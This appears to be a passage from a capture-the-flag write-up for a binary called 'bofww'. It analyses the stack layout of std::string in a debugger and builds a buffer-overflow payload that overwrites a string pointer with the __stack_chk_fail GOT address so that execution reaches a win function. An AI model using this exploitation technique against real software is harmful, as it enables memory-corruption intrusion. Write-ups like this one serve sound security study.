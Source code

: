 
We could see from the two examples how `std::string` is represented on the stack
and sort of guess that:

| offset | data |
|------- | ---- |
| 0x00   | pointer to the string content   |
| 0x08   | length of the string content   |
| 0x10   | the actual string content   |

Looks like the structure could hold up to either `0x10` or `0x18` bytes of
characters (including the `NULL` termination byte) on the stack. Let's try to
provide `0x10` bytes of input and see how it reacts.

```console
0x7fffffffcde0|+0x0000|+000: 0x00000000004172b0  ->  'aaaaaaaabaaaaaaa'  <-  $rax
0x7fffffffcde8|+0x0008|+001: 0x0000000000000010
0x7fffffffcdf0|+0x0010|+002: 0x000000000000001e  <-  $rdi
0x7fffffffcdf8|+0x0018|+003: 0x0000000000000000
0x7fffffffce00|+0x0020|+004: 0x0000000000000000
0x7fffffffce08|+0x0028|+005: 0xc382c9256963b300  <-  canary
```

As could be seen, our string is now allocated on the heap.

Since there is a pointer to a memory address, we could probably overwrite this
value with our buffer overflow and point it to `__stack_chk_fail@got.plt`.

```python
payload = b""
payload += p64(win)
payload = payload.ljust(0x130, b"\x00")
payload += p64(stack_chk_fail_got)
```

With this payload, we actually got a `SIGSEGV` and looking at the call stack,
it is trying to call `free` which hints us on `operator=` trying to allocate
our input on the heap. However, our input is only 3 bytes long as `NULL` bytes
are not counted. This is weird. Guess, this is a perfect time to look at how
`operator=` works.

```console
 -> 0x7fdbf5c3d8d7 498b4608           <_int_free+0x1b7>   mov    rax, QWORD PTR [r14 + 0x8]
[!] Cannot access memory at address 0x8050d8
[Thread Id:1] Name: "bofww", stopped at 0x7fdbf5c3d8d7 <_int_free+0x1b7>, reason: SIGSEGV
[#0] 0x7fdbf5c3d8d7 <_int_free+0x1b7>
[#1] 0x7fdbf5c404d3 <free+0x73> (frame name: __GI___libc_free)
[#2] 0x7fdbf5f4182d <std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::_M_mutate(unsigned long, unsigned long, char const*, unsigned long)+0xed>
[#3] 0x7fdbf5f4288b <std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::_M_replace(unsigned long, unsigned long, char const*, unsigned long)+0xfb>
[#4] 0x0000004013b9 <input_person(int&, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >&)+0xa9>
[#5] 0x000000000000 <NO_SYMBOL>
```
